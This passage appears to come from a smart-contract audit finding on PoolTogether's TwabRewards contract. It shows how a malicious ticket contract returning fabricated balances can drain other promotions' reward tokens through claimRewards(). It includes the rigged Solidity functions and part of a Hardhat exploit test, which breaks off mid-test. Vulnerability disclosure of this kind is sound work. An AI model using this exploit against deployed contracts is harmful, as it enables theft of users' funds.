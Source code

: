 The only verification made on the ticket address given by [\_requireTicket()](https://github.com/pooltogether/v4-periphery/blob/master/contracts/TwabRewards.sol#L230-L244) is that the smart contract must implement the `ITicket` interface.

The attacker can then call `claimRewards()` with its wallet address, the malicious promotion id and a single \_epochId for the sake of clarity.

1.  `_calculateRewardAmount()` is first called to get the reward amount with the following formula `(_promotion.tokensPerEpoch * _ticket.getAverageBalanceBetween()) / _ticket.getAverageTotalSuppliesBetween()`. The malicious ticket can return an arbitrary `_averageBalance` and an `_averageTotalSupplies` of 1, leading to an arbitrary large reward amount.
2.  `_promotion.token.safeTransfer(_user, _rewardsAmount)` is called. It transfers the amount of tokens previously computed to the attacker.

The attacker receives the tokens of other promotions without having spent anything.

#### [](#proof-of-concept-4)Proof of Concept

The malicious smart contract is a copy/paste of [TicketHarness.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/test/TicketHarness.sol) and [Ticket.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/Ticket.sol) with the following changes:

    /// @inheritdoc ITicket
    function getAverageTotalSuppliesBetween(
        uint64[] calldata _startTimes,
        uint64[] calldata _endTimes
    ) external view override returns (uint256[] memory) {
        uint256[] memory _balances = new uint256[](1);
        _balances[0] = uint256(1);
        return _balances;
    }
    
    /// @inheritdoc ITicket
    function getAverageBalanceBetween(
        address _user,
        uint64 _startTime,
        uint64 _endTime
    ) external view override returns (uint256) {
        return 1337;
    }

The test for HardHat is:

    describe('exploit()', async () => {
        it('this shouldnt happen', async () => {
            const promotionIdOne = 1;
            const promotionIdTwo = 2;
    
            await expect(createPromotion(ticket.address))
                .to.emit(twabRewards, 'PromotionCreated')
                .withArgs(promotionIdOne);
            
            let evilTicketFactory = await getContractFactory('EvilTicket');
            let evilTicket = await evilTicketFactory.deploy('EvilTicket', 'TICK', 18, wallet1.address);
            let createPromotionTimestamp = (await ethers.provider.getBlock('latest')).timestamp;
            await expect(twabRewards.connect(wallet2).createPromotion(
                evilTicket.address,
                rewardToken.address,
                tokensPerEpoch,
                createPromotionTimestamp,
                1,//epochDuration,
                0,//epochsNumber,
            )).to.emit(twabRewards, 'PromotionCreated')
                .withArgs(promotionIdTwo);
    